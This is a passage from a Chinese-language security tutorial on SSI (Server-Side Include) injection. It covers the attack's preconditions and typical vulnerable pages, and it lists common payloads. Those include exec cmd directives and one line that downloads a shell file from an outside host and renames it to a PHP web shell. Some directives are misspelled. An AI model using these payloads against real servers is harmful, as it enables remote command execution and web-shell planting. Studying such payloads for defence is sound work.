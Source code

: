   > 去了解一下CGI

  将某一外部程序的输出插入到页面中。可插入CGI程序or常规应用的输入，这取决于使用的参数是cmd还是cgi。

- 设置SSI信息显示格式`<#config>`(如文件制作日期/大小显示方式)

- 高级SSI可设置变量使用if语句

> SSI的使用场景是什么？

## SSI注入漏洞

何为SSI注入？

服务端包含注入，在stm、shtm、shtml等Web页面中，如果用户可以从外部输入SSI标签，而输入的内容会显示到上述后缀的Web页面时，就导致可以远程在Web应用中注入脚本开执行代码。

简而言之，就是攻击者可通过外部输入SSI标签到Web页面来动态执行代码。

SSI注入允许远程在Web应用中注入脚本来执行代码。

> 就是可以在外部输入SSI语句到Web页面来执行代码

### 攻击前提

要想进行SSI注入，在Web server上执行任意命令，需要下面的条件：

1. Web server支持并开启了SSI
2. 返回html页面时，嵌入了用户输入内容
3. 为对参数进行有效过滤

### 漏洞场景

一般的，在stm、shtm、shtml文件中，存在XSS的话，大概率存在SSI注入；

从定义看，页面中的一小部分是动态输出的时候，用SSI，比如：

- 文件相关的属性字段
- 当前时间
- 访客IP
- 调用CGI程序

### SSI注入常用命令

这里可以参考OWASP的说明：https://www.owasp.org/index.php/Server-Side_Includes_(SSI)_Injection

#### 命令执行

```
# Linux
<!--#exec cmd="ls" -->
<!--#exec cmd="wget http://mysite.com/shell.txt | rename shell.txt shell.php" -->

# Win
<!--#exec cmd="dir" -->

# 访问与设置服务器信息
# 更改错误信息输出
<!--#config errmsg="File not found, informs users and password"-->
# 显示当前文档文件名
<!--#echo var="DOCUEMTN_NAME"-->
# 显示虚拟路径和文件名
<!--#echo var="DOCUEMTN_URI"-->
# 使用“ config”命令和“ timefmt”参数，可以控制日期和时间输出格式：
<!--#config timefmt="A %B %d %Y %r"-->
# 使用fsize，打印所选文件的大小
<!--#fsize file="ssi.shtml"
```
